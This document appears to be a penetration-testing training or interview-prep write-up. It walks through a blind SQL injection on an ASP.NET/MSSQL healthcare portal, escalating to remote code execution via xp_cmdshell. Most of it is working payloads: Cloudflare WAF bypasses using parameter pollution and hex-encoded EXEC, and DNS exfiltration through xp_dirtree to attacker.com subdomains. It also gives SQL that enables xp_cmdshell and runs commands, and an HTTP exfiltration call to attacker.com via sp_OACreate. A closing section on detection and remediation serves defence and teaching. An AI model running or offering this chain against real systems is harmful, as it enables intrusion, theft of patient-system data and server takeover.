

# Web Ultra 02 - Bypassing Cloudflare WAF for Blind SQLi to RCE via xp_cmdshell

## 1. Scenario Briefing

**Context:**
You are dropped into a black-box external penetration test against an enterprise healthcare portal. The application is a classic monolithic ASP.NET application backed by Microsoft SQL Server 2019. The portal sits behind a strict Cloudflare WAF operating in block mode with advanced SQLi managed rulesets enabled.
You have discovered a potential entry point in a legacy report generation endpoint: `GET /Export.aspx?ReportId=1024&Format=pdf`.

**The Goal:**
Identify the Blind SQLi, bypass the Cloudflare WAF without getting IP banned, escalate privileges within the DB, and achieve reliable Remote Code Execution (RCE) on the underlying Windows Server using `xp_cmdshell`.

**The Catch:**
Cloudflare aggressively drops standard SQL keywords (`SELECT`, `UNION`, `AND`, `OR`, `EXEC`, `DECLARE`). Furthermore, the SQLi is completely blind—no errors, no visible output changes, only time-based inferences can be made. Egress filtering blocks all outbound connections except DNS.

---

## 2. Architecture & Attack Surface



*   **Vulnerable Endpoint:** `GET /Export.aspx?ReportId=1024`
*   **Vulnerability:** Time-based Blind SQL Injection in the `ReportId` parameter.
*   **WAF Constraints:** Strict blocking of spaces followed by SQL keywords, specific function signatures (e.g., `WAITFOR DELAY`), and stacked queries (`;`).

---

## 3. Attack Path & Exploitation Physics

### Phase 1: Identifying the Blind SQLi & Bypassing the WAF
The base parameter is numeric. Appending standard test payloads like `1024 AND 1=1` triggers a WAF block page (HTTP 403).

**The Physics of the Bypass:**
WAFs rely on regex engines parsing HTTP traffic as strings. SQL Server's parser, however, is incredibly permissive with whitespace, comments, and unicode normalization. 
Instead of spaces, we can use obscure whitespace characters or inline comments `/**/`. 
To bypass `WAITFOR DELAY` signatures, we can use local variables or mathematical obfuscation.

**WAF Bypass Payload Discovery:**
Blocked: `1024; WAITFOR DELAY '0:0:5'--`
Bypass technique: HTTP Parameter Pollution (HPP) combined with URL encoded SQL comments. ASP.NET concatenates multiple parameters with a comma.
Request: `/Export.aspx?ReportId=1024/*&ReportId=*/;WAITFOR%20DELAY%20'0:0:5'--`
ASP.NET parses this as: `1024/*,*/;WAITFOR DELAY '0:0:5'--`
WAF sees two separate parameters and might not evaluate them together, but ASP.NET joins them, creating valid SQL.

Alternative Bypass (If HPP fails):
Using obscure hex casting and unquoted execution.
`1024;DECLARE%20@q%20VARCHAR(20)=0x57414954464F522044454C41592027303A303A3527;EXEC(@q)--`
(Where `0x57...` is `WAITFOR DELAY '0:0:5'`). Cloudflare's regex misses the execution block because the dangerous keyword is hex-encoded.

### Phase 2: Escaping the Blindness (OOB Exfiltration)
Since doing time-based extraction for an entire exploit chain is agonizingly slow and noisy, we must upgrade the blind SQLi to Out-Of-Band (OOB) via DNS. MSSQL provides `xp_dirtree` or `master..xp_fileexist` to interact with UNC paths. When MSSQL attempts to resolve a UNC path like `\\attacker.com\test`, it performs a DNS lookup.

**OOB Query Execution:**
`1024; DECLARE @data VARCHAR(1024); SELECT @data = SYSTEM_USER; EXEC('master..xp_dirtree "\\'+@data+'.attacker-domain.com\foo"');--`

*Wait, WAF blocks `EXEC` and `master..xp_dirtree`.*
Bypass using string concatenation and `EXEC`:
`1024;DECLARE @s VARCHAR(MAX) = 'master..xp_d'+'irtree "\\'+SYSTEM_USER+'.dns.attacker.com\a"';EXEC(@s)--`

### Phase 3: Escalation and `xp_cmdshell` RCE
Once we confirm we are `sa` (or have sysadmin roles), we need to execute OS commands. `xp_cmdshell` is disabled by default in modern MSSQL. We must enable it via `sp_configure`.

To enable `xp_cmdshell` (Obfuscated for WAF):
```sql
1024;
DECLARE @c VARCHAR(MAX);
SET @c = 'EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;';
EXEC(@c);--
```

Executing a command and exfiltrating output via DNS (since standard output is blind):
We cannot directly DNS exfiltrate massive command output. We must write the output to a temp table, read it line by line, hex encode it (to avoid DNS syntax errors), and fire DNS queries.

```sql
1024;
CREATE TABLE ##t (id INT IDENTITY, out VARCHAR(MAX));
INSERT INTO ##t EXEC master..xp_cmdshell 'whoami';
DECLARE @r VARCHAR(MAX);
SELECT @r = out FROM ##t WHERE id = 1;
DECLARE @dns VARCHAR(MAX) = 'master..xp_dirtree "\\' + CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), @r), 2) + '.dns.attacker.com\a"';
EXEC(@dns);
DROP TABLE ##t;--
```
*Note: `CONVERT(..., 2)` outputs the hex representation without the `0x` prefix.*

---

## 4. The Interviewer's Gauntlet (Q&A)

### Q1: "You mentioned using HTTP Parameter Pollution (HPP) in ASP.NET. How exactly does ASP.NET handle multiple parameters with the same name, and why does this bypass the WAF?"
**Expert Answer:**
"When an ASP.NET application receives multiple GET parameters with the same name (e.g., `?id=1&id=2`), the underlying `Request.QueryString["id"]` implicitly concatenates the values with a comma: `1,2`.
A WAF typically processes the parameters as separate entities or only inspects the first occurrence. By sending `?id=1/*&id=*/;EXEC(...)--`, the WAF inspects `1/*` and `*/;EXEC(...)--` separately, seeing no malicious syntax. But ASP.NET joins them into `1/*,*/;EXEC(...)--`. The SQL parser sees `/*,*/` as an inline comment, effectively ignoring the comma and executing our injected payload."

### Q2: "Cloudflare is blocking `DECLARE`, `EXEC`, and `xp_cmdshell` entirely, even with HPP. How do you execute `xp_cmdshell` without sending those strings?"
**Expert Answer:**
"We can use SQL Server's built-in capability to execute hex-encoded strings. We don't need to send the strings `DECLARE` or `xp_cmdshell`.
We can build the command dynamically using `CHAR()` functions or pure hex execution. However, to execute it without the `EXEC` keyword, we can sometimes use local variable execution if the query structure allows it, or we bypass WAF keyword matching by placing non-standard whitespace characters like `%0b` (vertical tab) or `%0c` (form feed) between the keyword and the argument. E.g., `EXEC%0B(0x...)`.
If `EXEC` is hard-blocked, we can look for existing stored procedures that take execution strings, or use stacked query syntax combined with `sp_executesql` encoded in Unicode."

### Q3: "You're trying to resolve a UNC path for DNS exfiltration using `xp_dirtree`. The target network blocks all outbound port 53 (DNS) and 445 (SMB) traffic at the edge firewall. How do you exfiltrate?"
**Expert Answer:**
"If egress is strictly blocked for UDP/53 and TCP/445, DNS and SMB out-of-band exfiltration will fail. In this case, we have to fall back to an In-Band method or alternative OOB.
1. **In-Band (Time-based):** We must fall back to boolean/time-based inference, optimizing our queries using a bit-shifting binary search to extract data bit-by-bit.
2. **Alternative OOB (HTTP):** We can use `sp_OACreate` to instantiate the `MSXML2.XMLHTTP` or `WinHttp.WinHttpRequest.5.1` COM objects to send an HTTP GET request to our server with the payload. (e.g., `EXEC sp_OACreate 'WinHttp.WinHttpRequest.5.1', @Object OUT; EXEC sp_OAMethod @Object, 'open', NULL, 'GET', 'http://attacker.com/?data=' + @data; EXEC sp_OAMethod @Object, 'send';`).
3. **Web Root Write:** We use `xp_cmdshell` to run `echo <data> > C:\inetpub\wwwroot\export\out.txt`, then browse to `/export/out.txt` via the web application."

### Q4: "Explain the TDS (Tabular Data Stream) protocol. Why does a SQLi payload execute exactly the way the application's legitimate query executes?"
**Expert Answer:**
"TDS is the Application Layer protocol used for communication between the database client (ADO.NET) and the SQL Server. When the application issues a command, it is wrapped in a TDS packet—either as a `SQLBatch` (for raw queries) or an `RPC Request` (for parameterized stored procedures).
If the developer uses standard string concatenation (e.g., `"SELECT * FROM Reports WHERE id = " + id`), the entire string is packaged into a `SQLBatch` packet. The SQL Server parses the *entire* batch string in one pass. It tokenizes our injected semi-colons and executes them as sequential statements in the same batch context, inheriting the connection's established privileges and execution context."

### Q5: "What happens if the application uses `CommandType.StoredProcedure` and parameterized queries, but the Stored Procedure itself is vulnerable?"
**Expert Answer:**
"If the application uses `SqlParameter`, the data is sent via an `RPC Request` TDS packet. The parameter is strongly typed and treated strictly as data, neutralizing injection at the application tier.
However, if the target Stored Procedure takes this parameter and does `EXEC('SELECT * FROM Users WHERE id = ' + @id)` internally (dynamic SQL), we have Second-Order SQLi. We still inject our payload into the parameter. The application safely inserts our payload into the stored procedure parameter, but the *database engine* evaluates it unsafely during the `EXEC()` call, leading to code execution. The payloads remain largely the same, but we must ensure we don't break the stored procedure's internal syntax."

---

## 5. The Physics of Exploitation: Hex Encoding vs Character Sets
When WAFs inspect payloads, they assume the payload maps strictly to ASCII or UTF-8. 
MSSQL uses UTF-16 (represented as `NVARCHAR`). By prefixing a string with `N` (e.g., `N'payload'`), we instruct MSSQL to interpret it as Unicode.
An attacker can utilize half-width/full-width unicode characters. For example, a full-width apostrophe `＇` (U+FF07) might pass through a poorly configured WAF that only looks for `'` (U+0027). If the database or underlying driver performs Unicode normalization (mapping U+FF07 to U+0027) *after* the WAF inspects it, the WAF is bypassed.

Similarly, MSSQL's parser treats `0x` as a literal VARBINARY. When you execute `EXEC(0x...)`, you are entirely omitting the quotes and character string representations of the SQL commands. The WAF only sees hex digits, making regex-based signature matching near impossible unless the WAF decodes all hex strings contextually (which is computationally expensive).

---

## 6. Defensive Telemetry & Incident Response

### WAF and IIS Logging
- **HPP Indicators:** Look in IIS logs for URIs containing multiple instances of the same parameter or embedded comments like `/*` or `%2F%2A`.
- **WAF Anomalies:** High rate of 403 blocks from a single IP, followed by a sudden drop in blocks but an increase in request latency (indicating the attacker found a time-based bypass).

### SQL Server Audit Specifications
- **xp_cmdshell Execution:** Monitor SQL Server Error Logs and Windows Event Logs for `xp_cmdshell` usage. Any execution of `xp_cmdshell` in an environment where it is typically disabled is a Priority 1 alert.
- **sp_configure Changes:** Alert on any user running `RECONFIGURE` or modifying `show advanced options`.
- **Process Creation:** EDR should flag `sqlservr.exe` spawning `cmd.exe` or `powershell.exe`. This is the absolute strongest indicator of a successful SQLi to RCE chain.

### Remediation Strategies
1. **Parameterized Queries:** The only robust defense. Migrate all `SqlCommand` instances to use `SqlParameter` and ensure no dynamic SQL is used inside Stored Procedures.
2. **Principle of Least Privilege:** The application's DB user should *never* be `sa` or `sysadmin`. It should only have `db_datareader` and `db_datawriter` on the specific application tables. If the user isn't sysadmin, they cannot enable `xp_cmdshell`.
3. **Network Segmentation:** SQL Server should not be able to route traffic to the internet. Strict egress firewalls blocking DNS and SMB from the DB VLAN to external IP space prevent OOB exfiltration.
